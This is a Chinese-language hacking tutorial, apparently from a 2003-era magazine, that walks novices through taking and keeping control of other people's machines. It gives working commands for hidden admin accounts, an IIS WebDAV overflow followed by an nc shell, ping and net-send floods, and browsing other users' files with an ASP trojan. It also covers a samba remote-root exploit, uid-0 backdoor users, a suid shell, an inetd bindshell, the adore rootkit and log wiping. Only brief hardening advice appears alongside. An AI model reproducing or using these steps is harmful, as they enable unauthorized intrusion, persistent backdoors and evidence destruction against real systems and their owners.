> “要使用邮件通知功能：到选项→邮件服务器→（在安装选项中）移除‘服务’，然后没有程序给你发邮件了！”

这款软件给我感觉最好的地方是：显示效果非常好，它似乎比 Remote-Anything 还要好一些，远程终端更不用说了，而且图片传输速度也很快，这是 VNC 没法比的。总的来说，这款软件结合了 Remote-Anything 和 VNC 的优点。现在的菜鸟真是太幸福了，网上有这么多功能强大的远程控制工具。而且，有很多软件还没有被杀毒软件列入黑名单！菜鸟们还是抓紧时间用用吧！其实，远程登录的方式有很多种，除了上面讲到的直接控制远程主机桌面的外，还有像控制 DOS（如 FTP、TELNET……）的。我知道大部分菜鸟都很怕那些命令，烦琐而且难记，但这些都是最基础的东西，很多时候我们都会用到。如果你想让自己成为一个真正的高手，那就一定得学学这些东西，把自己的基础打扎实。

自 9·11 事件后，“基地”这个词似乎一下子变成了贬义。不管它在大家心目中处于什么地位，但在我们学习黑客技术的过程中必须得有自己的基地。有了它，我们会觉得安全些。而且，对于那些自己没有电脑的菜鸟来说，有了这个基地会让他们更方便一点。

在网上，有很多菜鸟，他们也在寻找着肉鸡。也许在你进入一台主机之前，已经有 N 个人进过了，所以你扫到的主机不一定很安全。如果他们在这主机上安了木马，而你却在这台主机上登录了一些账户，那么你的口令就会被那木马发到他们的邮箱里！这个问题也许有很多人没有去想过。有很多菜鸟喜欢问别人要肉鸡，也有的使用一些 BBS 提供的肉鸡，虽然这样很方便，但却不是很安全。其实除了这个，还有代理的安全问题。虽然代理可以让别人不知道你在什么位置，但提供代理的主机却知道你在什么地方，而且它还可捕获你的数据包。假如他们对你的数据包进行分析，那你就会泄露很多信息了！我又扯远了，说了那么多，就是为了让大家注意入侵基地的安全问题。

那么，我们怎么样才会有一个真正属于自己的入侵基地呢？上一部分我们学了怎么进行远程控制。能进行远程控制，什么事都好做了。如果是 Server 主机，尽量给它开远程终端服务，这样，你在上面工作时，机主不容易发现你的存在。

为了能让自己独享肉鸡，还必须得让别人上不了这台机器。首先，要解决弱口令的问题，大部分菜鸟都是通过口令进入主机的。如果能解决这个问题，就可挡住很多扫肉鸡的菜鸟。一般，出现弱口令的账户都是管理员不用的账户，所以你只管将弱口令的账户密码改了就是！如果被他们发现，可再找一台主机试试，直到找到我们需要的主机。

为使用方便，我们可给自己建一个管理员账户，很多东西的快捷方式都可放到桌面上。因为其他用户看不见你桌面上的快捷方式。创建管理员账户很容易，不过有的主机网速很慢，要打开那么多东西需要浪费不少时间。下面我教大家一个办法，也许会方便一点。

```bat
echo off
net user test 1234 /add
net localgroup administrators test /add
del admin.bat
```

打开记事本，然后输入上面的东西：

- `echo off`
- `net user test 1234 /add`（建立一个用户名为 test 的用户，密码为 1234）
- `net localgroup administrators test /add`（让 test 也是管理员 ADMIN）
- `del admin.bat`（删除 admin.bat 这个文件，消除足迹）

然后，把文件保存为 admin.bat。  
注意：保存的文件类型要选择“所有文件”。  
当你要创建一个管理员账户时，就把它上传到肉鸡上，然后运行它就可以了！这样，我们就创建了一个用户名为 test、密码为 1234 的超级用户。如果你创建的账户和密码忘了，可以在这个文件中查到。


好了，我们开始给主机安装一些常用工具。你可以给主机开 FTP 服务……下载一个 Snake 的 sock 代理软件。安装很简单，运行 SockServerCfg.exe，点击 Install。


设置完端口后，点击“Save”，然后点击“Start”运行程序，按“确定”就 OK 了（图20）！然后，你就可以用这个代理了！自己用一个代理速度很快，而且也很安全噢！

我们在杜绝别人上自己的肉鸡后，还得想办法不让主机的主人知道你在使用他的机子……可做一个快捷方式放在自己账户的桌面上。

有些人喜欢在自己的肉鸡上安一些后门……下面我介绍一下后门账户的创建。

```bash
net use \\192.168.0.1\ipc$ "" /user:"administrator"
copy psu.exe \\192.168.0.1\admin$\system32
psu -p regedit -i PID
psu -p regedit -i 5458
```

命令完成后，把 psu.exe 上传到目标主机的 winnt\system32 目录下……直接打开注册表，可读取本地 SAM 的信息。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
```

打开 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names，查看 administrator 与 guest 的类型值……将对应 F 项的关键字节复制粘贴以实现权限调整。

```bash
net user guest password
net user guest /active:y
net user guest /active:n
```

这两个键值导出后删除，再导入并关闭注册表。打开 CMD 输入命令设置 guest 密码、激活与禁用账户。上面的三行命令必须在 DOS 下执行！

OK，我们打开计算机管理器，查看用户……有了自己的肉鸡，就像英雄有了用武之地，可以发代理、做网管、甚至挂论坛等。

> **忠告**：不要在自己常用的肉鸡上攻击其他主机；不要随便改动常用主机文件；不要在常用肉鸡上运行大量占资源程序，否则会缩短使用时间。

### 菜鸟农场——攻市场

有了自己的基地，菜鸟的翅膀也就硬了，是不是可以考虑发招了！不过别攻击国内主机……如果你对这个还没有足够重视，你得引以为戒了。

最近的 IIS5 溢出漏洞影响很大……WebDav 漏洞并非 IIS 本身造成，而与 ntdll.dll 中的 API 及其组件调用有关。

授权与版本管理的（WebDAV），是 HTTP 协议的扩展协议。WebDAV 允许用户编辑和管理远程服务器上的文件……使 Web 服务陷入瘫痪。

针对 WebDAV 的工具有很多，扫描的工具有 WebDAVScan，而 Webdavx3 是款不错的攻击工具。WebDAVScan 和 Webdavx3 的使用都很简单。WebDAVScan 的软件界面如图21。


图21

有的虽然显示了 Enable，但不一定能溢出……看来 WebDAVScan 的报告不一定准确。

```text
C:\>webdavx3 192.168.0.1
IIS WebDAV overflow remote exploit by isno@xfocus.org
start to try offset,
if STOP a long time, you can press ^C and telnet 192.168.0.1 7788
try offset: 0
try offset: 1
try offset: 2
...
^C
C:\>nc -vv 192.168.0.1 7788
(UNKNOWN) [192.168.0.1] 7788 (?) open
Microsoft Windows 2000 [Version 5.00.2195]
C:\WINNT\system32>
```

到这一步，事情就好办了。你可以新建一个用户，然后把这个用户加到管理员组里！

```text
net user username password /add
net localgroup administrator username /add
```

很多时候虽然能溢出，但却连不上，也有的服务器被多次溢出后就崩溃了……补丁下载地址：http://download.microsoft.com/.../Q815021_W2K_sp4_x86_CN.EXE

DOS 这个词对于大家来说应该很熟悉，不过它有两个意思，一个是 DOS 系统，另一个是 Denial of Service（拒绝服务）……DOS 攻击方法有很多。

- **1. SYN FLOOD**  
  利用服务器的连接缓冲区（Backlog Queue）和特殊程序，设置 TCP 的 Header，不断发送只有 SYN 标志的 TCP 连接请求……现在有很多实施 SYN FLOOD 的工具。

- **2. IP 欺骗 DOS 攻击**  
  这种攻击利用 RST 位来实现……伪造大量 IP 地址，向目标发送 RST 数据，使服务器不对合法用户服务。

- **3. 带宽 DOS 攻击**  
  这是一种初级 DOS 攻击，如果连接带宽足够大，而服务器又不是很大，可以发请求消耗服务器缓冲区……威力巨大。

- **4. 自身消耗的 DOS 攻击**  
  这类攻击针对老式系统漏洞（如 Win95、Cisco IOS v10.x 等）……DOS 攻击危害较大，希望大家不要轻易发动进攻。

```text
ping -l 100 -t 192.168.0.1

Net send 192.168.0.1 你好啊!
```

其中，100 是数据包的大小，192.168.0.1 是主机 IP，加了 -t 以后它就会不停地 PING 主机，也就是不断向主机发送 100 bytes 的数据包。假如我们把数据包改大一点，然后用很多的主机一起 PING 这个主机，那么这个主机网络就有可能严重堵塞，甚至瘫痪！由于利用此方法较易发起攻击，所以微软后来做操作系统时已经对发送数据包的大小有了限制，致使不能发送太大的数据包。这是比较简单的 DOS。假如用这个方法攻击那些高速主机，好像是在开玩笑……

如果你在网吧上网，要攻击网吧内部的计算机。可以试试 net send 这个功能。这个命令就是向 192.168.0.1 发送一条消息。如果你向连续他发送 1000 条（可以写个 BAT 文件），那么他就会一直不停地点“确定”，上网都上不成了。不过，这个功能在 Win2000/XP 里才有，而且发送消息的功能没有被停止……

最近非典型肺炎弄得大家心神不定，计算机病毒也让大家烦恼不已。自己有电脑的人最怕的事莫过于计算机中病毒了，病毒本身就是一个有害程序，它可以很快蔓延，而且很难根除。病毒发展了这么多年，出现了很多种类型……

病毒的传播途径主要是电子邮件和移动存储设备。所以在使用别人的软盘时，一定别忘了对它杀杀毒，也别轻易打开邮件附件……

也许大家还没有忘记“混客绝情炸弹”吧！那算是网页病毒了，现在有很多网站上都加了恶意代码，看了它的网页，它就会修改你的注册表，更改你计算机的设置……

### 安全篇

上面我们说的一直是怎么入侵别人，现在得讲讲安全了。在此之前，先来讨论两个问题：我们都知道，如果黑了一台主机，网管就会对那台主机进行升级、维护，他的安全意识自然也会提高很多。上面我一直提醒大家不要轻易攻击国内的主机，但不攻击国内的主机对国内的计算机业发展是利还是弊呢？

也许大家在这个问题上都有自己的观点。不管大家看法怎么样，这个问题的确值得我们去深思。不过对于我们菜鸟来说，别人的安全意识怎么样，和自己没有关系，最重要的是自己的安全意识怎么样。

现在，国内在这方面抓得严，一般人不敢轻易进国内主机。也许只有那些初生牛犊才敢不用跳板就进入别人的计算机！为了安全，进别人计算机时还是用跳板吧。现在，就随我学用跳板吧！

现在，常用的软件是 sockscap，我用的是 SocksCap V2，你也可以试试。运行 SocksCap V2，点击“文件”，选择“设置”（图22）。然后，填上能使用的 socks5 代理 IP 地址和端口，按确定（图23）。接下来，我们添加要使用代理的程序。点击“新建”，然后点击“浏览”，找到你要使用代理的程序，这里以 QQ 为例（图24）。确定后，你就可以用代理上 QQ 了！（图25）

当然，我们用这个玩意不是为了用来上 QQ！这可是大材小用了，你可用来上远程桌面、VNC、IE……不过能加密么？这个问题就不需要我解释了吧！

现在国内的网民很多，但安全意识却不是很强。喜欢扫肉鸡的菜鸟都深有体会，我们随便一扫就会扫出来一大堆没有设置密码的主机……


X 档案在 2002 年第 4 期有一篇关于 ASP 木马的文章，写得很不错，那木马也很不错。其实我用 ASP 木马也有很长时间了，不过我用的是小木马叫 superdoor，很多朋友都用过它吧！

虽然它不如海阳顶琰网 ASP2003 木马功能那么强大，但它的危害也不小啊！


Superdoor 本来是用来更新网页的，后来被黑客利用了，它也就在网上流行开来。其实，威胁最大的还是虚拟主机，这个问题我还是最近才发现的！我在几个虚拟主机提供商的主机上进行了测试，发现他们几乎都存在不同程度的安全隐患。可能成为受害者的是服务商，但更多的是在那个主机上的用户了！所以，选择虚拟主机时一定要多多考虑！为了自己网站的安全，还是别买那种技术支持少的服务商空间。

说了这么多，大家还不知道是什么问题，我现在就给你们演示一下吧！做试验的主机就得罪了啊（不是我太黑，我已经给他们售前服务的 QQ 发了 N 条消息，可是一直没有回音。电话也打过几次，不过没有人接。我知道我很菜，不过你们也得小心哦）！

还是先进入管理页面，如图27。

由此可知，我的空间在它主机上的位置是 D:\\Internet\\users\\asp_users\\***。嘿嘿！你明亮的眼睛是不是已经发现 asp_users 这个富含意义的词了？这个目录下面一定有很多和我一样的用户。那我是不是可以看到、修改别人的东西呢？那我们就试试看吧，别太狠啊！

先看看他的 D 盘有什么东西！怎么操作应该知道吧（图28）。


很失望是吗？我想，很多人走到了这一步，看到这个结果后就关了浏览器，没有再去发掘东西。我们在地址栏里直接输入访问文件夹的 URL：http://***.***.net/door11/list.asp?path=D:\\Internet\\users\\asp_users&attrib=true（图29）。看好了啊！

哇塞，你吓坏了吧！有很多用户啊！如果是你，会怎么处理他们呢？不说修改别人的东西，就是看一眼他们的文件，他们的网站就会很危险了！如图30。


由于在同一个主机上，所以很容易就可知道这个用户的域名，那样就可下载他的数据库了。下了干什么用，那是我的事了！光想着黑主机里的用户，那样好像不是很好啊，别人也是花了钱买的空间。主机安全系数低，服务商对用户不负责，那我就整整网管吧！

我们直接进他的系统目录看看。哎呀，怎么老是提示什么错误，不过没关系，只是委屈一下你的鼠标，多点几次确定就可以了！看见了吧，很有意思吗？别干坏事哦！！如图31。

如果想控制他主机，可找到它的 SAM 文件，然后把它复制到可下载的目录下面。下载以后，可用读取 SAM 信息的软件破解主机密码！有了主机的密码，就可更逍遥法外了。这样够黑吧，嘿嘿！

其实，有很多服务商都存在这样的问题，说的是虚拟主机，其实不然。对这个问题不知道大家的看法怎样？是系统漏洞？好像不是，是网管的水平低吗？好像也不是。至少我们直接访问 C、D、E 盘时看不见什么东西。

其实这个问题还是有办法解决的。这几天为了解决这个问题，花了不少时间，还逃了 N 节课，而且还在自己的计算机上装了 Win2000 Server，够辛苦吧！

解决这个问题的办法就是设置文件访问的权限！我们来看下面两种不同访问权限所表现出的不同访问效果！

## 主题乐园

- 1. 我的 F 盘访问权限是（图32）：用 Superdoor 访问，效果如图33。
- 2. 我的 H 盘的访问权限是（图34）：用 Superdoor 访问，效果如图35。

我想，你一定是明白了怎么回事！前面做试验的那台主机应该就是第二种。那么，我们该怎么设置网站主机才最好呢？


网站数据所在的文件夹设置成 everyone 完全控制即可。不知道这么设置会不会留下安全隐患，由于我还没有对海阳顶端网 ASP2003 木马进行分析，不知道它会不会钻这个空子。当然，如果你对 ASP 木马很有兴趣，可以去测试一下！有什么好的发现，别忘了告诉大家！

**系统盘：**一般网站的东西都不会放在系统盘，所以只要将系统盘设置成 administrator 操作权限。而且应用到该文件夹、子文件夹及文件（图36）。


主机服务商的主机要提供很多用户空间，他们会对用户的文件夹进行分类。这时就会出现一些安全隐患。一般地，网管给用户文件夹设置的名字都和用户名一样。比如说，一个用户的网站的域名是 test.123.com，那么一般情况下它的用户名就是 test，网管给他建的文件夹名字也是 test。所以，如果知道一个网站的域名，而且他是和自己同主机同类型的用户，便有可能看见他网站里面的东西了。你可直接输入访问的 URL，比如：http://***.***.net/door11/list.asp?path=D:\Internet\users\asp_users\test&attrib=true。这个 URL 就是直接访问 test 文件夹的！如果网管不采取一定措施，这个问题无法避免的。作为用户，他们也可做一些事情来保护自己的文件。比如说数据库，你可以将它的后缀改成 asp 或 asa，其他文件也做相应的改动。这样，别人知道你的数据库地址也下载不了。


这样，别人就不可能通过它来访问了么？我劝你还是别去试了。我上次已经试过了，如果设置成那样，访问网页时就需要输入密码了！那样，我们的网站就不能正常访问。所以，我们只能一个个地定义文件夹了！这样好像很麻烦，没办法了，我还没找到更好的办法。定义文件夹也较麻烦，主要是因为要设置的文件夹比较多。非网站数据的文件夹、网站数据文件夹的上级文件夹可以设置成 administrator 完全控制，SYSTEM 读取/写入。如图37。


我给网管提一个方案吧！在建文件夹时，文件夹名字设置成用户名加上一个其他特殊符号（如 ?#￥ 之类的），但要保持随机性。这样网管自己可区别，别人也不容易猜到文件夹的名字。

虽然这样设置主机的权限能挡住 Superdoor 的威胁，但不知道它是不是有负面影响，可能在 FTP 上传文件时会出现问题。如果这样，就试试把数据传输类型设置成 PORT，再试试是否能上传，一般情况下都是可以的！

下面，我再谈一下关于海阳顶端网 ASP2003 木马的一点想法。其实这个木马比我们想象中的更可怕，看了上期那篇介绍 ASP2003 木马的文章，觉得它对很多技术水平不是很好的空间服务商威胁很大。说实在的，通过限制访问权限解决不了根本问题，因为它只要隐藏了文件，只要能用浏览器访问 ASP 木马，我们就有可能猜出其他用户的文件夹名字，就可能看到别人的东西。我不知道是不是有其他更好的解决方法，是不是可通过调用某些程序来解决，比如 cmd！只要让浏览器不能访问 ASP 木马就可以了！还有一种思想是文件过滤。本刊 2002 年第 4 期的《一次非常规漏洞攻击实例》一文中，提到的那位教授的作法不错。不过怎么应用到虚拟主机上？应用以后会有什么负面影响？还是未知数，有兴趣的朋友可以去研究一下！

## 给菜鸟

我知道，看这本杂志的朋友大多是和我一样成长起来的菜鸟。也知道每个菜鸟学一点东西很不容易，因为学这些东西是没有人教的，都是自己一点一点自学积累的。很多网友让我教他怎么黑别人的计算机，可是这怎么可能呢？首先，我没有达到高层次的水平，其实我也想教教他们，可这些东西不是只用 QQ 聊天就能说清楚的。我们每个人自己都有自己的事情，而且搞入侵又不是我们的职业，所以我希望那些指望别人教自己的菜鸟，体谅一下老菜鸟，我们的能耐也有苦衷的。当然，最终学东西都得靠自己，指望别人的时间还不如用来学习呢。想想以前，我为了学一点简单的东西通宵上网 N 次。虽然学的东西没有什么用，但我觉得还是很值得，因为我已经去努力学了！不知道你在学技术时，是否也达到废寝忘食的地步呢？

BBS 是菜鸟的家，但我不希望菜鸟在那里只学会灌水。你可试着自己发表一些自己的东西，这样的交流方法很有效果，你的水平会不断提高。写一篇文章，你总不会没有去研究过就能写出来吧！那岂不成了天才了；）。

菜鸟入侵一般都是基于 Windows 操作系统的，如果你想把自己的水平再提高些，并且成为一位黑客，就得学学其他操作系统。我最近也在向 Linux 进军，你呢？

在任何时候都不要忘记自己的安全！现在上网都需要身份证，而且很多地方上网都需要办理上网卡，如果你做了坏事就很容易被查到。在很多人眼里，黑客是大坏蛋，所以很多事情都不好说清楚的。就是你帮助别人，他也会认为你做了坏事（我们好可怜啊）！

在成长的过程中，我积累了一些学习经验，有兴趣的菜鸟可以借鉴一下。想学好技术必须自己多去实践、多研究，只想不做，永远学不到真正的技术。多看一些技术文章、教科书上学的东西很全面，而且比较简单，一般人都可看懂。杂志上写的都是最新的技术，有一定的难度，因此它是精华。希望大家在学习精华时别丢了基础！我曾经看见过这样一段话，不知道是哪位前辈写的，现在把它送给大家，就算是送给你们最后的礼物吧！

要学好电脑需要有足够的兴趣，天才靠勤奋，勤奋可以靠兴趣。电脑基础知识很重要，不要不会走路就想要学跑步，这是不可能的事情。基础靠自己，不是靠人指导和带领，多自己努力，光会问是不行的，计算机是实践的科学，要多钻研多实践！

菜鸟们，你们起飞了吗？


### 第一部分：Linux 攻击手法

**说明**

如果不懂 Linux/Unix 是什么，请到 Google 查询；文中的图片被更改过，有些东西是不能公开的；我不是什么黑客，也请勿用本文所提到的方法随意入侵国内服务器。

### 一、Linux 基本知识

对于玩 Win2k 的人来说，刚刚开始学习 Linux 时，会觉得有点痛苦。最好你能在自己机器上安装一个 Linux（比如 redhat8.0，也可安装自己喜欢的版本，如 redhat9.0），不是很推荐 VM，直接安装更有利于你能力的提高。

下面，我们先熟悉一些东西！

### 1．Linux 的目录结构

- （1）文件名要求：
  - A 长度：最大 256 个字符，与 UNIX 兼容，建议 14 个字符以下；
  - B 组成：通常由字母、数字、点号、下划线、减号等组成，区分大小写（Linux 命令都用小写）。
- （2）路径名：
  - A 绝对路径：以根目录开始；
  - B 相对路径：以当前目录开始；
  - C “.”和“..”：“.”表示当前目录，“..”表示上级目录。
- （3）树型目录结构：  
  Linux 系统通过目录将系统中所有的文件分级、分层组织在一起，形成了 Linux 文件系统的树型层次结构。以根目录为起点，所有其他目录都由根目录派生而来。一个 Linux 系统的树型目录主要的部分，结构如下所示。用户可浏览整个系统，可进入任何一个已授权进入的目录，访问那里的文件。


很像 Windows 的目录，什么东西放到什么目录下，大家自行寻找研究，我就不多废话了。本文附录包含一些提及或可能要用到的命令，其他命令请自己查找资料学习。

我的 Linux 是在某 hackgame 慢慢学的，那是个很不错的学习方式。熟悉这些东西是个漫长而乏味的过程，你必须学会忍耐。请不要忽略这些东西。

### 二、怎样拿到第一台 Linux

如果你在 Windows 下，请重启到 Linux 下面。第一台 Linux 一般都是利用最新的 exploit（溢出程序）攻击得到的。现在 samba 那么流行，就用它吧！源代码可在 www.hack.co.za 或是 http://packetstormsecurity.nl 找到。

请将源代码存储为 samba.c，放到你的工作文件夹中。打开你的终端（即所谓的命令行模式）：

```bash
ls      /* 相当于 dir */

gcc -o samba samba.c   /* 编译 samba.c 并输出为 samba */

/* 不加 -o samba，会输出 a.out，还得改参数，自行查阅 */

./samba   /* 运行当前目录的程序 */
```

运行结果如图1。


如图2所示，./samba 为我们带上了 scan 功能，高兴吧！


让我们开始，输入：

```bash
./samba -d 0 -c 80 -S 203.230.100 ...

/* -d 是延迟参数，-c 是进程数目，-S 是扫描开始地址，区分大小写 */
```


扫描开始，如图3。出现了 samba 的服务器有可能就有漏洞，一般都是 Linux，你可以用 nmap 探测看看，如图4。


下面，我们看看 Nmap 参数：

```bash
# nmap
Nmap V. 2.54BETA31 Usage: nmap [Scan Type(s)] [Options] <host or net-list>

Some Common Scan Types:
- -sT TCP connect() port scan
- -sS TCP SYN stealth port scan
- -sU UDP port scan
- -sP ping scan
- -sF/-sX/-sN Stealth FIN/Xmas/Null scan
- -sR RPC/identd scan

Some Common Options:
- -O TCP/IP fingerprinting
- -p <range> ports to scan
- -F 仅扫描 nmap-services 列出的端口
- -v verbose
- -P0 不 ping hosts
- -D <decoy1[,decoy2...]> 使用诱饵
- -T <Paranoid|Sneaky|Polite|Normal|Aggressive|Insane> 时间策略
- -n/-R DNS 解析策略
- -oN/-oX/-oG <logfile> 输出日志
- -iL <inputfile> 从文件读取目标
- -S <your_IP>/-e <devicename> 指定源地址或网卡
- --interactive 交互模式

Example: nmap -v -sS -O www.my.com 192.168.0.0/16 192.88-90.*

SEE THE MAN PAGE FOR MANY MORE OPTIONS, DESCRIPTIONS, AND EXAMPLES
```

一般地，nmap -sS -O xx.xx.xx.xx 就可以了，nmap 判断系统为 Linux。

很好，我们可以开始溢出了（#号是提示符，不是需要输入的，下同）！如图5。

```bash
# ./samba -b 0 -v 203.230.112.101
/* -b 是选择服务器系统的，0 为 Linux，-v 是显示详细信息 */
```


图5

我们去喝杯咖啡先。  
一分钟了，还没成功，可能打了补丁，或者限制了 IP。为了不吊死在一棵树上，我们换台服务器看看（图6）。

```bash
-smb:2.0.56 ./samba1 -b 0 www.xxx.com
samba-2.2.8 remote root exploit by eSDee

+ Bruteforce mode. [Linux]
+ Host is running samba.
+ Worked!

*** JE MOET JE MUIL HOUDEN ***
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root

id
uid=0(root) gid=0(root) groups=99(nobody)
```

图6

很快就成功了，你要请我吃饭了：）。让我们加个 uid 为 0 的用户来工作，先找到 useradd：

```bash
# find / -name useradd -print
./usr/sbin/useradd

或者

# whereis useradd
useradd: /usr/sbin/useradd /usr/share/man/man8/useradd.8.gz

# /usr/sbin/useradd
usage: useradd [-u uid [-o]] [-g group] [-G group,...]
[-d home] [-s shell] [-c comment] [-m [-k template]]
[-f inactive] [-e expire ] [-p passwd] name
```

添加用户 eong（名字随自己取）：

```bash
# /usr/sbin/useradd -u 0 -o -g 0 eong
```

当然，可以用 echo 更改 /etc/passwd 文件。养成好习惯，备份先：

```bash
# cp /etc/passwd /tmp/passwd
# cp /etc/shadow /tmp/shadow
# echo 'eong:x:0:0::/:/bin/sh' >> /etc/passwd
# echo 'eong::::::' >> /etc/shadow
```


图7 Windows 下的 putty 图

同样添加了一个名为 eong 的用户，更改 eong 的密码：

```bash
# passwd eong
```

输入你的密码。  
你可以用 ssh 登陆上去了，在 Windows 下，你还可用 putty 以 ssh 方式登陆（图7），或者使用其他 ssh 工具。

```bash
ssh -l eong xx.xx.xx.xx
```

其中，“-l”参数后面加的是用户名，不加的话默认为 root。


图8

登陆成功，恭喜！吃饭了，下课先。

### 三、后门

上节课我们已经拿到了一台服务器的 root 权限，w 一下看看（图9），w 就是 who。


图9

root 不在，乘机作乱。为保护我们可爱的机器，得动点手脚，先打补丁：

```bash
wget ftp://anetdream.bingle.org.cn/pub/redhat8.0_updates/samba-client-2.2.7-5.8.0.i386.rpm
games:*:7:13:Games pseudo-user:/usr/games:/sbin/nologin

# cp /bin/sh /bin/nologin
# vi /etc/passwd
```


输入 `:wq` 存盘退出。我们把 games 那行改成这样子：`games:*:7:13:Games pseudo-user:/usr/games:/bin/nologin`。眼睛不好的管理员修了，最好别修改 uid 和 gid 为 0，比较容易被发现。

#### 1. Suid shell 后门

Suidshell 后门就是把 `/bin/sh` 这类 shell 设置为 s 属性，这样执行时就可变成 euid=0 的 root 权限了。很容易做的一个后门，也是最常用的。

```bash
# cp /bin/sh /home/games/ash
# chmod +s /home/games/ash
```

用 games 登陆看看：

```bash
$ whoami
games
$ ./ash
# whoami
root
```

这样就有了 root 权限。

```bash
# id
uid=1015(games) gid=1015(games) euid=0(root)
```

#### 2. 服务进程后门

inetd 进程负责监听各个 TCP 和 UDP 端口的连接请求，并根据连接请求启动相应的服务进程。该配置文件 `/etc/inetd.conf` 很简单，基本形式如下：

| 服务名 | 套接字类型 | 协议 | wait/nowait | 用户 | 服务器路径 | 参数 |
|---|---|---|---|---|---|---|
| rsh | stream | tcp | nowait | root | /usr/sbin/in.rshd | in.rshd |
| login | stream | tcp | nowait | root | /usr/sbin/in.rlogind | in.rlogind |
| exec | stream | tcp | nowait | root | /usr/sbin/in.rexecd | in.rexecd |
| comsat | dgram | udp | wait | root | /usr/sbin/in.comsat | in.comsat |
| talk | dgram | udp | wait | root | /usr/sbin/in.talkd | in.talkd |

- 1. 第一栏是服务名称（对应 `/etc/services`）。
- 2. 第二栏是套接字类型（stream、dgram、raw）。
- 3. 第三栏是通信协议（通常 TCP/UDP，RPC 服务有 rpc/ 前缀）。
- 4. 第四栏表示并发处理策略（wait / nowait）。
- 5. 第五栏是运行该进程的用户名。
- 6. 第六栏是守护进程完整路径。
- 7. 第七栏是进程名及参数（可用 internal）。

```bash
# more /etc/services
...
# echo "fingerd stream tcp nowait root /bin/sh sh -i" >> /tmp/a
# /usr/sbin/inetd /tmp/a
# rm -f /tmp/a
```

你可以 telnet 他的 79 端口了，上去就会有个 shell，不过每条命令后都要加 `;` 作为结束符。这个简单的 bindshell 没有密码验证，别人也可能进来。可以找个有密码验证的 bindshell，或者自己改写。

#### 3. LKM 后门

通常 LKM 用来为系统提供额外功能，而不用重新编译内核，例如：加载设备驱动程序和其他硬件驱动程序等。Linux、Solaris 和 BSD（Free、Net 和 Open）等都可加载模块实现系统功能。某些后门程序可把自己作为内核可加载模块运行，在内核层隐藏应用程序，不用修改应用程序本身，也可称作 rootkit。

## 三 主题乐园

好的隐蔽性，所以单独提出来说一下。现在 LKM 已经有好多种了，例如 slkm、knark 和 adore。这里就大概讨论一下 adore 的安装，作为一个简单的指引。先把 adore 下载到服务器上解压缩：

```bash
# tar zxvf adore.tar.gz
# ls
# cd adore
# more README
```

根据 README 的提示操作。我们可通过更改后门代码来更改一些参数，看看代码了解需要改动的一些地方。必须针对实际环境，修改 adore.h 头文件中的 `redir` 和 `HIDDEN_SERVICES`。然后就是安装，进入到 adore 目录：

```bash
# ./configure
Starting adore configuration ...

Checking 4 ELITE_UID ... found 30
Checking 4 ELITE_CMD ... using 57213
Checking 4 SMP ... NO
Checking 4 MODVERSIONS ... NO
Checking for kgcc ... found cc
Checking 4 insmod ... found /sbin/insmod  OK.

Loaded modules:
msr 1376 0 (unused)
cpuid 1184 0 (unused)
apm 9148 0 (unused)
ramfs 1792 0 (unused)
nls_gb2312 528 0 (unused)
nls_cp936 119936 1
nls_cp950 98432 1
(autoclean)
nls_big5 512 0 (unused)
keybdev 1664 0 (unused)
usbkbd 2848 0 (unused)
input 3072 0 [keybdev usbkbd]
usb-uhci 20708 0 (unused)
usbcore 48032 0 [usbkbd usb-uhci]

Since version 0.33 Adore requires 'authentication' for its services...
Password (echoed):
```

按照提示输入 password，`Checking 4 ELITE_CMD ... using 57213` 这一行告诉我们后门所使用的端口为 57213。

```bash
# make
# make install
```

**（注：有的版本运行 `./configure` 会自动 make）** 不同的环境编译可能有些问题，参考 make 返回的信息调整一下就好。后门就装好了，看看是怎么控制的？ava 是 adore rootkit 的控制程序，即可使用 ava 来控制 adore 模块的行为：ava 支持以下选项：

- Usage: `./ava {h,u,r,R,i,v,U} [file, PID or dummy (for U)]`
- h 隐藏文件（hide file）
- u 重现文件（unhide file）
- r 以 root 的权限运行一个程序（execute as root）
- R 永远删除一个进程（remove PID forever）
- U 卸载 adore 模块（uninstall adore）
- i 隐藏一个进程（make PID invisible）
- v 让一个进程重现（make PID visible）
- 其他的 knark 安装大同小异，大家可自行尝试。

> 在已发布的 Phrack 58 中，sd 和 devik 不用 LKM 实现内核层 rootkit（Linux on-the-fly kernel patching without LKM，Phrack Volume 0x0b, Issue 0x3a, Phile #0x07 of 0x0a）的技术。

#### 4. rootkit 后门

rootkit 是被用得最多的东西，而且一直在更新，让人防不胜防。比如 su、ls、netstat、ps 这些系统程序，这些都可用对应的 rootkit 替换掉。rootkit 可以上网去查找，比较容易找到。具体使用方法各不相同，大家可自行参考代码中的说明，一般都会有的。总之就是要替换掉相应的系统程序，隐藏自己的踪迹。

### 四、其他入侵方法

平时多关注黑帽子们发出来的漏洞报告和测试代码，有条件可以自己写点 exploit。通过溢出程序的编写，你可学到更多内容。利用这些漏洞，你可远程拿到 Linux 的 root 权限，即我们所说的 remote-root。

然而，有时候我们并不能直接拿到 root 权限，需要先拿到一个用户权限，一般可通过猜解弱口令用户实现。你可通过各种途径拿到一份经过加密的 shadow，比如通过 CGI 漏洞读取、利用 wuftp 的漏洞等。部分服务器开了 wuftp，如果开了匿名用户，可以到 hack.co.za 或 packetstorm 找个相关的溢出程序（如 wuftpd2600.c），只需用 gcc 编译，然后按照它的提示溢出就行了。能不能拿到权限，就全靠你自己了。实在不行可以暴力猜解，如果你运气好的话，也不失为一种方法。

### 五、清除日志

做完事情总是要打扫一下，可以直接用 wipe。用 ftp 拿到 wipe-1.00.tgz。

```bash
# gzip -d wipe-1.00.tgz
# tar -xf wipe-1.00.tar
```

解开后有下列文件：

```bash
$ ls -al
... INSTALL
... Makefile
... README
... wipe.c

# make
Wipe v0.01
Usage: make [where System types are]
linux freebsd sunos4 solaris2 ultrix
aix irix digital bsdi netbsd hpux
```

我们可看到编译需要加上系统选项，让 wipe 能够正常清除日志。比如我们在 Linux 下编译，就应该这样输入：

`# make linux`

在 freebsd 下就应为：

`# make freebsd`

这里，我们就用 make linux：

```bash
# make linux
# ls -al
...
# ./wipe
USAGE: wipe [-u|-w|-l ...] [options]
UTMP editing:
  Erase all usernames          wipe -u [username]
  Erase one username on tty    wipe -u [username] [tty]

WTMP editing:
  Erase last entry for user    wipe -w [username]
